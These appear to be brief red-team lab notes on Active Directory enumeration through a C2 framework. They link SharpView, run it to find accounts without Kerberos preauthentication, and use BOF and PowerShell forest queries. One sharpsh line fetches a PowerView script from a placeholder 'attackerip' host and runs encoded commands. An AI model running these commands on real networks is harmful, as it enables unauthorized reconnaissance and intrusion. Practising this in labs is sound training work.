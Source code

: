 [https://github.com/tevora-threat/SharpView/tree/master/Compiled](https://github.com/tevora-threat/SharpView/tree/master/Compiled)
```bash
execute-assembly /home/htb-ac590/SharpView.exe "get-netuser -PreauthNotRequired" -t 240 -i -E -M
```
- get-domain
- base64 encode a Powerview command and execute
```bash
sharpsh '-u http://attackerip:port/PowerVoiew.ps1 -e -c <base64>'
```
## coff loaders (Beacon Object Files)
from the armory
c2tc-domaininfo
- domain functional level reference
  [https://eightwone.com/references/ad-functional-levels/](https://eightwone.com/references/ad-functional-levels/)
- more manual use of execute
```bash
execute -o powershell $Forest = [System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest(); $Forest.Domains
```
